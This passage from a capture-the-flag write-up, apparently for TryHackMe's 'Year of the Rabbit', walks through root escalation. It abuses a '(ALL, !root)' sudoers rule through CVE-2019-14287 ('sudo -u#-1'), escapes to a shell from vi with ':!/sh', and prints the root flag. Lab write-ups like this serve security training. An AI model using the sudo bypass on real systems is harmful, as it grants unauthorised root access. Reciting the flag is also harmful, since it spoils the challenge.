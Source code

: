 # Escalation

Let’s check Gwendoline’s privileges:

```
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

We can run `/usr/bin/vi /home/gwendoline/user.txt` (owned by root) as any user but root, without password.

Let’s exploit the CVE-2019-14287 vulnerability:

*“A flaw was found in the way sudo implemented running commands with arbitrary user ID. If a sudoers entry is written to allow the  attacker to run a command as any user except root, this flaw can be used by the attacker to bypass that restriction.”*

```
$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

Once in `vi`, use `:!/sh` to open a shell:

```
# whoami
root
# cd /root
# ls
root.txt
# cat ro    
cat: ro: No such file or directory
# cat root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```